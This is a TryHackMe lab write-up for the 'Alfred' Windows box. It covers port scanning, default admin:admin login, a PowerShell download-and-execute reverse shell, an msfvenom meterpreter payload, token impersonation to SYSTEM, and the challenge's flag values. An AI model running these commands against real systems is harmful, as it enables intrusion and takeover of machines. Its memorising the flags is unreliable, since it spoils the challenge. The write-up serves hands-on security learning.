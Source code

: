 # ALFRED

## BASIC INFO
```
export IP=10.10.8.255

80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T02:33:53+00:00; -40s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```
## INITIAL ACCESS

> - **How man ports are open?**
>> 3

> - **What is the username and password for the log in panel (in the format username:password)**
>> admin:admin\
The login page is located at port 8080

> - **Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature use this command to get th reverse shell on your machine and run it. `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`.**
>> No answer needed

The feature is under view, project, configure tab.

> - **What is the user.txt flag?**
>> 79007a09481963edf2e1321abd9ae2a0

## SWITCHING SHELLS
Creating payload with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9001 -f exe -o shell.exe
```

> - **What is the final size of the exe payload that you generated?**
>> 70832


```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.8.177:8000/shell.exe','shell.exe')"

Then just run the command
shell
```

## PRIVILEGE ESCALATION

> - **To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**
>> NT AUTHORITY\SYSTEM

> - **read the root.txt file at C:\Windows\System32\config**
>> dff0f748678f280250f25a45b8046b4a

_**Remember to migrate to spoolsv.exe or services.exe first or else you can't find the flag**_

<script src="https://tryhackme.com/badge/3978"></script>